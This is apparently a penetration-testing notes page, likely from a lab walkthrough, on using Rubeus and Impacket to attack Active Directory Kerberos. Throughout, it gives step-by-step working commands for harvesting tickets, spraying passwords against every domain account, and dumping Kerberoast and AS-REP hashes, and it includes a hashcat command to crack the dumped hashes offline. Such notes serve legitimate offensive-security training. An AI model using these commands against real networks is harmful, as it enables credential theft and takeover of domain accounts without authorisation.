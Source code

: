 # Rubeus

> Rubeus include many tools and attacks include overpass the hash, ticket requests and renewals, ticket management, ticket extraction, harvesting, pass the ticket, AS-REP Roasting, and Kerberoasting, etc.

{% embed url="https://github.com/GhostPack/Rubeus" %}

## Harvesting Tickets

_For pass the ticket attack_

`cd Downloads` - navigate to the directory Rubeus is in

`Rubeus.exe harvest /interval:30` - This command tells Rubeus to harvest for TGTs every 30 seconds

<figure><img src="../../../.gitbook/assets/image (3).png" alt="" width="563"><figcaption></figcaption></figure>

## Brute-Forcing / Password-Spraying

In password spraying, you give a single password such as Password1 and "spray" against all found user accounts in the domain to find which one may have that password.

This attack will take a given Kerberos-based password and spray it against all found users and give a .kirbi ticket. This ticket is a TGT that can be used in order to get service tickets from the KDC as well as to be used in attacks like the pass the ticket attack.

Before password spraying with Rubeus, you need to add the domain controller domain name to the windows host file. You can add the IP and domain name to the hosts file from the machine by using the echo command:

`echo MACHINE_IP CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts`

`cd Downloads` - navigate to the directory Rubeus is in

`Rubeus.exe brute /password:Password1 /noticket` - This will take a given password and "spray" it against all found users then give the .kirbi TGT for that user

<figure><img src="../../../.gitbook/assets/image (4).png" alt="" width="523"><figcaption></figcaption></figure>

## Kerberoasting

### Rubeus

`cd Downloads` - navigate to the directory Rubeus is in

`Rubeus.exe kerberoast` This will dump the Kerberos hash of any kerberoastable users

copy the hash onto your attacker machine and put it into a .txt file so we can crack it with hashcat

`hashcat -m 13100 -a 0 hash.txt wordlist.txt` - now crack that hash

<figure><img src="../../../.gitbook/assets/image (5).png" alt="" width="563"><figcaption></figcaption></figure>

### Impacket

**Impacket Installation**

`cd /opt` navigate to your preferred directory to save tools in

download the precompiled package from https://github.com/SecureAuthCorp/impacket/releases/tag/impacket\_0\_9\_19

`cd Impacket-0.9.19` navigate to the impacket directory

`pip install .` - this will install all needed dependencies

**Kerberoasting w/ Impacket**

`cd /usr/share/doc/python3-impacket/examples/` - navigate to where GetUserSPNs.py is located

`sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip MACHINE_IP -request` - this will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.

`hashcat -m 13100 -a 0 hash.txt wordlist.txt` - now crack that hash

## AS-REP Roasting

AS-REP Roasting dumps the krbasrep5 hashes of user accounts that have Kerberos pre-authentication disabled. Unlike Kerberoasting these users do not have to be service accounts the only requirement to be able to AS-REP roast a user is the user must have pre-authentication disabled.

### Dumping KRBASREP5 hashes

`cd Downloads` - navigate to the directory Rubeus is in

`Rubeus.exe asreproast` - This will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes.

Crack hash with hashcat
